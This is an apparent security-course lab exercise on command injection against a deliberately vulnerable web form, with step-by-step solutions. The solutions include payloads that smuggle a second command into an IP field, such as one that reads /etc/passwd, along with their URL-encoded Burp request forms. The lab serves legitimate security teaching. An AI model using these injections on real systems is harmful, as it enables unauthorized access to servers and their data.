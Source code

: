 # My First Command Injection
In this exercise, you'll use the semicolon operator to inject commands to a vulnerable server.

---


## Instructions
- Click the **Command Injection** vulnerability in the left navigation bar.

### Direct Injection
- Submit a valid IP address, such as `8.8.4.4` to see the form's normal behavior.

- Use the semicolon to inject commands that:
  - Dump the contents of `/etc/passwd`
  - Print the current username
  - Print the operating system and kernel version
  - Print all running processes
  > **Solution**
  > ```bash
  > # Dump the contents of `/etc/passwd`
  > 8.8.4.4; cat /etc/passwd
  > # Print the current username
  > 8.8.4.4; whoami
  > # Print the operating system and kernel version
  > 8.8.4.4; uname
  > # Print all running processes
  > 8.8.4.4; ps aux
  > ```

- Finally, change your injection to use a _bad_ IP address, such as `fake_ip`. How does the output change?
  > **Solution**: Try injecting `bad; ls`. You'll get output from `ls`, but no error message from `ping`.

### Burp Repeater
- Enable Foxy Proxy, launch Burp Suite, and intercept a request through the IP address form.

- Send the request to Repeater. Update the IP address to use the same payloads you delivered previously.
  - Remember to encode spaces as `%20` or `+`.
  > **Solutions**
  >  - `ip=8.8.4.4;%20cat%20/etc/passwd&Submit=submit`
  >  - `ip=8.8.4.4;%20whoami&Submit=submit`
  >  - `ip=8.8.4.4;%20uname&Submit=submit`
  >  - `ip=8.8.4.4;%20ps%20aux&Submit=submit`

- Inspect the **Response** tab to see the results.

### Burp Intruder
- Next, send the request to Intruder. Set a position around the command you're injecting. Then, use the three commands you sent previously as **Payloads**.

- Run the attack, and inspect the responses in the **Attack** pane.
